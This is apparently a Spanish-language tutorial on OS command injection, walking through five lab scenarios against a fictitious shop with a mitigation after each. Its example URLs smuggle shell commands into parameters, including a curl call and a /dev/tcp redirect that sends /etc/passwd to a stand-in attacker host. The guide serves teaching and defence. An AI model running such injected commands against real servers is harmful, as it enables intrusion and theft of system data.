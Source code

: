 Command Injection | Guía completa

Command Injection es una vulnerabilidad que permite a un atacante ejecutar comandos del sistema operativo en el servidor que aloja una aplicación web. Esta vulnerabilidad ocurre cuando la aplicación no valida adecuadamente las entradas del usuario y permite que se ejecuten comandos arbitrarios. Los ataques de Command Injection pueden llevar a consecuencias graves, como la ejecución de código malicioso, el robo de información sensible o incluso el control completo del servidor.


Lab #1: OS command injection, simple case
En este laboratorio, se presenta un caso simple de Command Injection. El objetivo es ejecutar un comando del sistema operativo en el servidor web. Por ejemplo, supongamos que la aplicación tiene una función de búsqueda que permite al usuario ingresar un término de búsqueda y luego ejecuta el comando ping en el servidor para verificar la conectividad. Un atacante podría aprovechar esto para ejecutar comandos maliciosos como:

http://www.ejemplotienda.com/search?term=8.8.8.8; ls -la
El comando ls -la se ejecutaría en el servidor junto con el comando ping, lo que permitiría al atacante listar el contenido del directorio y obtener información confidencial.

Solución: Para mitigar este tipo de vulnerabilidad, la aplicación debe validar y sanitizar adecuadamente las entradas del usuario. Se deben implementar medidas como la utilización de listas blancas de caracteres permitidos y la ejecución segura de comandos mediante el uso de funciones o bibliotecas específicas que eviten la inyección de comandos.

Lab #2: Blind OS command injection with time delays
En este laboratorio, se presenta un escenario de Command Injection ciego que no devuelve resultados directos en la respuesta de la aplicación. En lugar de eso, el atacante debe aprovechar retrasos en el tiempo para inferir la ejecución exitosa de un comando. Por ejemplo, supongamos que la aplicación tiene una función de envío de correos electrónicos que permite al usuario ingresar un mensaje y una dirección de correo electrónico. El atacante podría utilizar una inyección de comando para ejecutar un comando malicioso junto con un retraso en el tiempo, como:

http://www.ejemplotienda.com/contact?message=test&email=test@example.com; sleep 10
Si la aplicación demora aproximadamente 10 segundos en enviar el correo electrónico, el atacante puede inferir que el comando sleep 10 se ejecutó correctamente.

Solución: La solución para mitigar este tipo de vulnerabilidad implica una combinación de validación estricta de las entradas del usuario y el uso de técnicas de ejecución de comandos seguras que eviten la inyección de comandos. Además, se deben evitar retrasos innecesarios en la aplicación que puedan ayudar a los atacantes a inferir la ejecución exitosa de comandos.

Lab #3: Blind OS command injection with output redirection
En este laboratorio, se explora una variante de Command Injection ciego que redirige la salida del comando a una ubicación controlada por el atacante.En la web ficticia "ejemplotienda.com", supongamos que la aplicación permite a los usuarios cargar imágenes de perfil y luego redimensionarlas utilizando un comando del sistema operativo. El atacante podría aprovechar esto para ejecutar comandos maliciosos y redirigir la salida a una ubicación controlada por él, como:

http://www.ejemplotienda.com/upload?image=test.jpg; ls -la > /var/www/html/attacker/output.txt
El comando ls -la se ejecutaría en el servidor y la salida se redirigiría al archivo /var/www/html/attacker/output.txt. De esta manera, el atacante puede obtener información confidencial y controlar el destino de la salida.

Solución: Para mitigar este tipo de vulnerabilidad, es fundamental que la aplicación realice una validación y sanitización rigurosas de las entradas del usuario. Además, se deben utilizar funciones o bibliotecas seguras para la ejecución de comandos, evitando la inyección de comandos y la redirección no controlada de la salida.

Lab #4: Blind OS command injection with out-of-band interaction
En este laboratorio, se presenta una variante de Command Injection ciego que interactúa con el atacante a través de canales alternativos. Por ejemplo, supongamos que la aplicación tiene una función que realiza una llamada al sistema operativo y envía un mensaje de confirmación al atacante a través de una solicitud HTTP a un servidor controlado por él. El atacante podría utilizar una inyección de comando para ejecutar comandos maliciosos y enviar los resultados a través de una solicitud HTTP a su servidor, como:

http://www.ejemplotienda.com/execute?command=ping -c 5 8.8.8.8; curl http://attacker-server.com/notify?result=executed
El comando ping -c 5 8.8.8.8 se ejecutaría en el servidor y los resultados se enviarían al servidor del atacante a través de la solicitud HTTP.

Solución: Para mitigar esta vulnerabilidad, se debe implementar una validación estricta de las entradas del usuario, asegurando que no se permitan caracteres o comandos maliciosos. Además, se deben evitar interacciones no controladas con sistemas externos y restringir las conexiones salientes desde la aplicación.

Lab #5: Blind OS command injection with out-of-band data exfiltration
En este laboratorio, se explora otra variante de Command Injection ciego que permite al atacante exfiltrar datos a través de canales alternativos. Supongamos que la aplicación tiene una función que ejecuta comandos del sistema operativo y muestra los resultados en una página de administración. El atacante podría utilizar una inyección de comando para exfiltrar datos a su servidor controlado, como:

http://www.ejemplotienda.com/admin?command=cat /etc/passwd > /dev/tcp/attacker-server.com/80
El comando cat /etc/passwd se ejecutaría en el servidor y los resultados se enviarían al servidor del atacante utilizando una conexión TCP saliente.

Solución: Para mitigar esta vulnerabilidad, se deben implementar medidas de seguridad como la validación exhaustiva de las entradas del usuario y el uso de funciones seguras para la ejecución de comandos. Además, se deben limitar las conexiones salientesdesde la aplicación y monitorear las comunicaciones de red en busca de actividad sospechosa.
